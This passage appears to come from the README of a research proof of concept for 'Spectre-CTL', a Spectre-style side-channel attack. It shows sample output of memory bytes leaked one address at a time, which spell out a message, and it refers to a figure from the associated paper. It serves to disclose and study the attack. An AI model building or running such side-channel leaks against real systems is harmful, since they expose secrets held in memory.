 ```
Reading at address = 0x557417b15013... Success: 0x20=' ' score=3 
Reading at address = 0x557417b15014... Success: 0x41='A' score=3 
Reading at address = 0x557417b15015... Success: 0x20=' ' score=3 
Reading at address = 0x557417b15016... Success: 0x6E='n' score=3 
Reading at address = 0x557417b15017... Success: 0x6F='o' score=3 
Reading at address = 0x557417b15018... Success: 0x76='v' score=3 
Reading at address = 0x557417b15019... Success: 0x61='a' score=3 
Reading at address = 0x557417b1501a... Success: 0x6C='l' score=3 
Reading at address = 0x557417b1501b... Success: 0x20=' ' score=3 
Reading at address = 0x557417b1501c... Success: 0x53='S' score=3 
Reading at address = 0x557417b1501d... Success: 0x70='p' score=3 
Reading at address = 0x557417b1501e... Success: 0x65='e' score=3 
Reading at address = 0x557417b1501f... Success: 0x63='c' score=3 
Reading at address = 0x557417b15020... Success: 0x74='t' score=3 
Reading at address = 0x557417b15021... Success: 0x72='r' score=3 
Reading at address = 0x557417b15022... Success: 0x65='e' score=3 
Reading at address = 0x557417b15023... Success: 0x2D='-' score=3 
Reading at address = 0x557417b15024... Success: 0x43='C' score=3 
Reading at address = 0x557417b15025... Success: 0x54='T' score=3 
Reading at address = 0x557417b15026... Success: 0x4C='L' score=3 
Reading at address = 0x557417b15027... Success: 0x20=' ' score=3 
Reading at address = 0x557417b15028... Success: 0x61='a' score=3 
Reading at address = 0x557417b15029... Success: 0x74='t' score=3 
Reading at address = 0x557417b1502a... Success: 0x74='t' score=3 
Reading at address = 0x557417b1502b... Success: 0x61='a' score=3 
Reading at address = 0x557417b1502c... Success: 0x63='c' score=3 
Reading at address = 0x557417b1502d... Success: 0x6B='k' score=3 
Reading at address = 0x557417b1502e... Success: 0x21='!' score=3
```

## Detail

The attack process is shown in Fig 1. (Fig 10 in the paper). 

<center><img src="../figures/Spectre-CTL.png" width="80%"> </center>
<center> <b>Fig 1. </b> &nbsp Spectre-CTL Attack </center>

